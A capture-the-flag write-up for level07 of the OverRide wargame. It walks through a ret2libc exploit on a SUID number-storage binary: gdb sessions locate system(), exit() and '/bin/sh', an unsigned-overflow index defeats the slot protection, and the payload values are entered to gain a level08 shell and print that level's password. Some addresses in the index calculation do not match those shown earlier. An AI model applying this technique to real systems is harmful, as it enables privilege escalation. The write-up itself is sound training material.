 # Level 7

## Vulnerability

Ret2Libc Attack on Unprotected Data Array

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### main() overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

We can see the program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

We also know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

Vulnerability: no check is performed on indexes and an unsigned int table is stored on the stack. This means we can read and store in stack memory. 


### Build exploit

Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) calculate the 'index' of EIP
3) use maxint overflow to access protected indexes
4) run exploit by inputting malicious number + index to running program

**step 1**
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at ```0xf7e6aed0```
- ```exit()``` is at ```0xf7e5eb70```
- ```"/bin/sh"``` is at ```0xf7f897ec```


**step 2** <br />
We need to find the index in the table where we reach EIP, and then store our payload there using ```store_number()```. 

The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```

**Step 3** <br />
Next, we need to calculate the 'index' of our EIP address. 
```
  0xffffd63c   -    0xffffd474    =    int(0x1c8)  =   456
[eip_address]     [table_address]                    [bytes]

456 / 4   =   114
          [index in table]

114 % 3 = 0
```
Ah... index 114 is protected: ```114 % 3 = 0```. We can't store a number at this index. 

On lines 152-158 of the disassembled binary, we see that the table is accessed as ```data[index * 4]```. 
Since the index is an unsigned int and multiplied by 4, we can overflow uintmax to give the index where we want to go. 
```
0x100000000 = 2^32
[size of uintmax]

(2^32 / 4) + 114 = 1073741938
                  [index 114, after overflow]

1073741938 % 3 = 1
```
Index ```1073741938``` is unprotected! 

Let's test it out by causing the program to segfault. 
```
(gdb) run

Input command: store
 Number: 1094795585   # decimal for 0x41414141 or 'AAAA'
 Index: 1073741938    # index 114
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

**Step 4** <br />
Let's structure our exploit:
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # address
                        4159090384           4159040368             4160264172          # in decimal, to be number input
                            |                     |                     |
                        1073741938           115                    115                 # index to use
                        data[114]            data[115]              data[116]   
```

Let's give it a go!

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
